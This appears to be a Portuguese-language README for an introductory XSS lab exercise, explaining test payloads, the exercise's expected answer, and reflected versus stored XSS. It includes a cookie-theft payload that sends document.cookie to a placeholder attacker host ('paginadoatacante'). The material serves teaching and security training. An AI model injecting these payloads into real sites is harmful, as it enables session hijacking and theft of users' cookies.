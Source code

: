 ## Módulo 00 / Exercício 00 - Payloads

Esses são alguns tipos de payloads que podem ser usados por atacantes para identificar se uma página pode conter vulnerabilidades XSS:

    alert("Teste")

Caso o navegador apresente um pop-up com o valor Teste, é entendido que há uma grande possibilidade desse site estar vulnerável.

Em seguida o atacante pode começar a explorar a vulnerabilidade mais afundo:

    new Image().src="http://paginadoatacante/?cookie="+document.cookie

No caso do **exercício 00**, para realizar a resposta esperada, o script que deve ser inserido no campo de texto é o seguinte:

    document.getElementById("cookieOutput").innerText = "Cookie value:" + document.cookie


## Cenários:

Para aplicar esse tipo de vulnerabilidade o atacante precisa conseguir injetar script maliciosos em páginas vulneráveis. Sendo de dois tipos:

* **Reflected XSS** - Neste caso, o script não está armazenado em um servidor de destino e precisará ser entregue para cada vítima. Esse script pode ser entregue através de uma mensagem de erro ou um resultado de busca. 

    Uma forma frequente será um link distribuído por meio de esquemas de phishing. Ao acionar o servidor, por meio do link, o script será refletido e executado no navegador. Esta técnica é a mais frequente.

* **Stored XSS** - Neste tipo de ataque, o script é armazenado em banco de dados. Dessa forma, qualquer usuario que tentar acessar o site vulnerável irá executar o código malicioso. 

    Um exemplo são campos de comentários. Se a pessoa comentar com um script javascript e o site não tiver as devidas medidas de segurança, o código pode ser executado sempre que alguém entrar na página.
    
    Assim, todos os usuários que acessarem essa página de comentários o script será carregado e executado automaticamente.


